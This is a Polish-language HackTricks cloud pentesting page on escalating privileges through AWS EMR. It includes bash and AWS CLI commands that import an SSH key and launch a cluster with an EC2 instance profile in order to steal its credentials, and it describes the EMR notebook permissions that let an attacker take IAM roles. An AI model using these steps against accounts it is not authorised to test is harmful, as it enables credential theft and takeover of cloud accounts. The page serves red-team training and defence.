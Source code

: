 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Więcej **informacji o EMR** w:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Atakujący z tymi uprawnieniami może **uruchomić nowy klaster EMR, dołączając role EC2** i próbować ukraść jego poświadczenia.\
Należy zauważyć, że aby to zrobić, musisz **znać jakiś klucz prywatny ssh zaimportowany w koncie** lub zaimportować jeden, oraz być w stanie **otworzyć port 22 w węźle głównym** (możesz to zrobić za pomocą atrybutów `EmrManagedMasterSecurityGroup` i/lub `ServiceAccessSecurityGroup` w `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Zauważ, jak **rola EMR** jest określona w `--service-role`, a **rola ec2** jest określona w `--ec2-attributes` wewnątrz `InstanceProfile`. Jednak ta technika pozwala jedynie na kradzież poświadczeń roli EC2 (ponieważ połączysz się przez ssh), ale nie roli EMR IAM.

**Potencjalny wpływ:** Privesc do roli serwisowej EC2.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Dzięki tym uprawnieniom atakujący może przejść do **konsoli AWS**, utworzyć Notatnik i uzyskać do niego dostęp, aby ukraść rolę IAM.

{% hint style="danger" %}
Nawet jeśli do instancji notatnika przypiszesz rolę IAM, w moich testach zauważyłem, że mogłem ukraść poświadczenia zarządzane przez AWS, a nie poświadczenia związane z rolą IAM.
{% endhint %}

**Potencjalny wpływ:** Privesc do zarządzanej roli AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Tylko z tym uprawnieniem atakujący będzie mógł uzyskać dostęp do **Jupyter Notebook i ukraść rolę IAM** z nią związaną.\
Adres URL notatnika to `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Nawet jeśli do instancji notatnika przypiszesz rolę IAM, w moich testach zauważyłem, że mogłem ukraść poświadczenia zarządzane przez AWS, a nie poświadczenia związane z rolą IAM.
{% endhint %}

**Potencjalny wpływ:** Privesc do zarządzanej roli AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
